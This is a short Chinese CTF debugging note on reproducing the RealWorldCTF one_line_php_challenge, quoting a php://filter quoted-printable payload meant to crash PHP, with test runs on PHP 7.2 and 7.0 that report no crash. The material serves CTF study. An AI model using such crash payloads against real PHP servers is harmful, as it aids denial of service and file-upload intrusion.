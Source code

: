 ```yaml
---
title: php调试分析
tags: ctf_php_debug
abbrlink: 31116
date: 2018-12-05 11:41:55
---
```


## 小菜，加油

## php流处理的bug

案例: realwordctf-one_line_php_challenge

参考链接: https://hackmd.io/s/rJlfZva0m#exp

ubuntu18.04 复现一直失败，payload打过去之后，即便已经造成segmentfault,上传文件依然保留不下来。我是很懵逼啊. 比赛给的dockerfile，到目前为止也没有运行成功。。。。。。。。。。。。。。。。。。

先不考虑ubuntu18.04, 直接在ubuntu16.04上调试。

payload1:

```
file(urldecode('php://filter/convert.quoted-printable-encode/resource=data:    //,%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf'));
```

本机测试payload1，一个都没有成功，那些大佬也不知道怎么搞出来的，懵逼啊，做题，估计还缺点运气。

php7.2:

```
tiandiwuji@tiandiwuji:~/Desktop$ php -v
PHP 7.2.10-0ubuntu0.18.04.1 (cli) (built: Sep 13 2018 13:45:02) ( NTS )
Copyright (c) 1997-2018 The PHP Group
Zend Engine v3.2.0, Copyright (c) 1998-2018 Zend Technologies
    with Zend OPcache v7.2.10-0ubuntu0.18.04.1, Copyright (c) 1999-2018, by Zend Technologies
tiandiwuji@tiandiwuji:~/Desktop$ cat test.php
<?php
file(urldecode('php://filter/convert.quoted-printable-encode/resource=data:    //,%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf'));
# file(urldecode('php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAFAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA'));
?>
tiandiwuji@tiandiwuji:~/Desktop$ php test.php 
No core dump
```

php7.0:

```
qianfa@qianfa:~/Desktop/php_debug$ php -v
PHP 7.0.32-0ubuntu0.16.04.1 (cli) ( NTS )
Copyright (c) 1997-2017 The PHP Group
Zend Engine v3.0.0, Copyright (c) 1998-2017 Zend Technologies
    with Zend OPcache v7.0.32-0ubuntu0.16.04.1, Copyright (c) 1999-2017, by Zend Technologies
qianfa@qianfa:~/Desktop/php_debug$ cat test.php
<?php
#file(urldecode('php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA87654321AAAAAAAAAAAAAAAAAAAAAAAA'));
file(urldecode('php://filter/convert.quoted-printable-encode/resource=data://,%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf'));
echo "No core dump";
?>
qianfa@qianfa:~/Desktop/php_debug$ php test.php 
No core dump
```